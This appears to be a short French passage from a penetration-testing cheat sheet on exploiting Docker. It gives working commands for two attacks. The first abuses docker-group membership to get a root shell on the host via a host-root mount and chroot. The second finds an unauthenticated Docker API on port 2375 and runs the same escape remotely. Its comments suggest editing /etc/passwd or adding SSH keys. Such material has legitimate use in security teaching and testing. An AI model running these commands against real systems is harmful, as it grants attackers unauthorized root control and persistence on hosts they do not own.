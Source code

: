 ### Exploitation de Docker
> Si l'utilisateur fait partie du groupe `docker` ou si l'API Docker est exposée sans authentification.

1.  **Appartenance au Groupe `docker` :**
    ```bash
    id # Vérifier si l'utilisateur est dans le groupe 'docker'
    # Si oui, on peut abuser de Docker pour obtenir root sur l'hôte.
    docker run -v /:/host_root -it alpine chroot /host_root /bin/sh
    # Dans le shell Docker : vous êtes root dans un chroot du système de fichiers de l'hôte.
    # Vous pouvez modifier /etc/passwd, ajouter des clés SSH, etc.
    ```

2.  **API Docker Non Authentifiée (Exposée sur le réseau) :**
    ```bash
    # Vérifier si l'API Docker est accessible (par défaut port 2375 ou 2376)
    # nmap -p 2375,2376 <target_ip>
    # curl http://<target_ip>:2375/version # Si accessible

    # Si accessible, utiliser le client Docker pour interagir avec l'API distante :
    export DOCKER_HOST=tcp://<target_ip>:2375
    docker images
    docker run -v /:/host_root -it alpine chroot /host_root /bin/sh
    ``` 